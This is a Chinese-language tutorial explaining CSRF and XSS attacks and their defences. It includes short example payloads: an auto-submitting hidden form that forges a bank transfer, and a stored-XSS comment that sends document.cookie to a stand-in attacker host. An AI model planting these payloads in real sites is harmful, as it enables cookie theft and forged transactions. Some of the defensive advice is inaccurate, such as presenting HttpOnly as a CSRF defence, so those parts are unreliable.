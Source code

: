 # CSRF 和 XSS

## CSRF

Cross site request forgery，跨站请求欺骗，利用的是对于浏览器的信任。

一般情况的**被攻击流程**：

* 首先用户C浏览并登录了受信任站点A；
* 登录信息验证通过以后，站点A会在返回给浏览器的信息中带上已登录的cookie，cookie信息会在浏览器端保存一定时间（根据服务端设置而定）；
* 完成这一步以后，用户在没有登出（清除站点A的cookie）站点A的情况下，访问恶意站点B；
* 这时恶意站点 B的某个页面向站点A发起请求，而这个请求会带上浏览器端所保存的站点A的cookie；
* 站点A根据请求所带的cookie，判断此请求为用户C所发送的。

这样一来站点 A 会按照用户 C 的权限受理刚刚收到的请求，可能为发送邮件，短信，甚至转账等等。



### Get请求的攻击

例如某银行按照 Get 请求发起转账，转账的地址为www.xxx.com/transfer.do?accountNum=l000l&money=10000，表示给 account 为10001的账户转账10000元。

在某个网站中，可能有一个图片，其链接为

```html
<img src ='www.xxx.com/transfer.do?accountNum=l000l&money=10000'>
```

那么在进入页面的时候就会自动加载，并且因为用户没有登出银行网站，于是这一条请求就被执行了。而且使用的是用户的 cookie(权限)



### Post 请求的攻击

大多数的网站不会使用 Post 来进行数据更新，于是就有了新的方法

```html
<form id="aaa" action="http://www.xxx.com/transfer.do" metdod="POST" display="none">
    <input type="text" name="accountNum" value="10001"/>
    <input type="text" name="money" value="10000"/>
</form>
<script>
    var form = document.forms('aaa');
    form.submit();
</script>
```

可以看到在上面这个部分种，有一个隐藏的表单，在用户加载的时候自执行提交，于是就变成了 Post 请求。如果参数如此简单，那么就会被攻击。



### CSRF防御

1. 尽量使用 Post 而不是 Get
2. 将 cookie 属性设置为 Httponly，这样通过程序(js 脚本或者 applet)就无法读到 cookie，也就避免了伪造 cookie 的行为
3. 使用额外参数 token，每次会话服务器会产生一个随机 token，在受信任网站 A 中某处存放(不在 cookie)，提交的时候会连带 token 一起提交，因此其他网站无法伪造这个 token
4. 通过 http 头的Referer字段辨认，当用户在本页面发起请求的时候，refer 值是http://www.xxx.com(对于本例)，但是如果在外源网站发起申请 referer 就会是外源网址。

```javascript
String referer = request.getHeader("Referer"); // 获取 Referer 值
```

## XSS攻击

Cross Site Scripting 跨站脚本，利用的是对用户的信任。分为三类，**反射型**，**存储型**，**Dom-based**

其中`反射型和 dom-based 为非持久性攻击，存储型为持久性攻击`。



### 反射型(恶意链接)

主要方式为用户点在恶意网站击某个链接的时候，脚本通过一些方式窃取用户信息然后返回到网站服务端。

例如某网站为：

```html
<body>
  <div>
    <a href="http://localhost:3001/xss">xxs 攻击</a>
    <a href="http://localhost:3001/testcookie">testcookie 攻击</a>
  </div>
</body>
```

后端为：

```javascript
router.get('/xss', (ctx, next) => {
  ctx.body = '<script>alert("反射型 XSS 攻击")</script>';
});

router.get('/testcookie', (ctx, next) => {
  console.log(ctx.cookies.get('connect.sid'));
  ctx.body = '<script>alert("'+ctx.cookies.get('connect.sid')+'")</script>';
  next();
});
```

用户如果点击了这两个链接，对应的内容就会被执行，用户的 cookie 就会被获取。

### 存储型

存储型一般利用的是把恶意代码插入数据库中。

例如一个论坛网站，有一个地方可以发表评论，在这个地方，恶意用户写一段代码作为评论，然后作为评论插入了数据库中，例如：

```javascript
<script>window.open("www.gongji.com?param="+document.cookie)</script>
```

这条评论如果不加任何处理加入数据库中，那么下次浏览这条评论的人的浏览器就会执行上面这段代码。

上面这段代码会产生一个 get 请求，www.gongji.com?param= 用户的 cookie，这样在恶意网站的后台，就可以看到用户的访问记录，从而拿到用户的 cookie。



### Dom-based

Dom-based 攻击方法主要基于一个事情，就是早期时候利用 js 或者 jquery 对于 html 和用户输入的拼接。例如：

```javascript
document.getElementbyId('id').innerHtml = '自定义部分' +用户输入 +'自定义部分'
```

如果有一段代码值为：javascript:alert('dom-xss')， 或者插入一段代码破坏代码结构的转义，或者输入一段代码进行标签闭合，就会破坏 html 结构。

因为使用 innerHtml 会直接解析恶意代码，导致恶意代码执行。



## Xss 防御

1. 永远不要相信用户输入，对用户输入进行过滤。
2. 对于要拼接的部分，对于潜在威胁的部分，进行编码，例如< 转成 &lt. > 转成 &gt. 这个样子。 
3. cookie 设置 httponly，这样在 document 中无法看到 cookie







参考链接：1. [安全|常见的Web攻击手段之CSRF攻击](https://www.jianshu.com/p/67408d73c66d)

2. [Web 安全之Xss 攻击原理及防范](https://www.cnblogs.com/tugenhua0707/p/10909284.html)

